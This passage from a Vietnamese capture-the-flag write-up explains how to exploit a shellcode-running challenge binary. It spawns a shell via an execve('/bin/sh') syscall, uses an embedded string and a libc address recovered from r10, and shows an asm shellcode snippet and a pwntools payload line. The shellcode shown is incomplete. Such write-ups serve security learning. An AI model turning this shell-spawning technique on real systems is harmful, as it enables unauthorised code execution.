 ```c
  return 0LL;
}
```

![image](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FJGK9O9RgeCP7yW9iJ1CJ%2Fuploads%2FJ4FVCVXtdgLn0nvJJCdJ%2Fimage.png?alt=media&token=5143d541-21d3-43ae-9de4-ce4b54c24847)

Flow của chương trình:
`mmap -> input shellcode -> mprotect -> filter -> exec`

nôm na là chương trình sẽ chạy shellcode cho chúng ta thôi

Các thanh ghi sau khi jump đến shellcode:

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252FddTPveGqzDG7qURhJrGc%252Fimage.png%3Falt%3Dmedia%26token%3Dc03b3d44-c17b-483a-9a8b-77d388cd7b30&width=768&dpr=1&quality=100&sign=eeea36aae4c2092c3d12fc795282c03aa1c732cf8d70a24031739853d8d2733e)

![image](https://lunaere-3.gitbook.io/~gitbook/image?url=https%3A%2F%2F3296390032-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FJGK9O9RgeCP7yW9iJ1CJ%252Fuploads%252FWZwTH1xHofN0UtBYWcsx%252Fimage.png%3Falt%3Dmedia%26token%3Db4e42557-2bd9-4a0f-94c3-f2c57348d876&width=768&dpr=1&quality=100&sign=4d9849642a1110af8b671ab220c6191f074eb5e85f8dc76ee1cc1af2e329b7c0)

**-> Mục tiêu của chúng ta sẽ là syscall đến execve('/bin/sh', NULL, NULL').**

Đầu tiên là nhét `/bin/sh` vào `$rdi`. Vì `$rdi` phải là pointer đến string `binsh` nên ta phải write vào được đâu đó rồi nhét địa chỉ đó vào `$rdi`. Since mmap của ta sau khi qua hàm mprotect thì chỉ còn bit `r-x`.

Để ý là sau khi tạo mmap, nó sẽ có đủ quyển `rwx`, tiếp theo là write shellcode vào, rồi mới gọi `mprotect`. Nên ý tưởng là ta sẽ nhét thằng string `binsh` vào cuối shellcode để chương trình write vào trước khi mprotect.

Syscall thì ở thanh `$r10` có một địa chỉ sus, khá giống hàm nào đó trong libc. Sau khi test trừ đi offset cố định và check vmmap sử dụng gdb thì ra được libc base.

### Shellcode:
```asm
# offset đến binsh phía cuối
mov rdi, rax
add rdi, 0x21

# clear args
xor rdx, rdx
xor rsi, rsi
xor rbx, rbx

# libc syscall
sub r10, 0x16b6e8
mov rax, 0x3b
```

### Payload:
```py
sla(b'>>', b'999') # size
sla(b'>>', shellcode + p64(29400045130965551))
```
---
## Bad_trip
> shellcode again
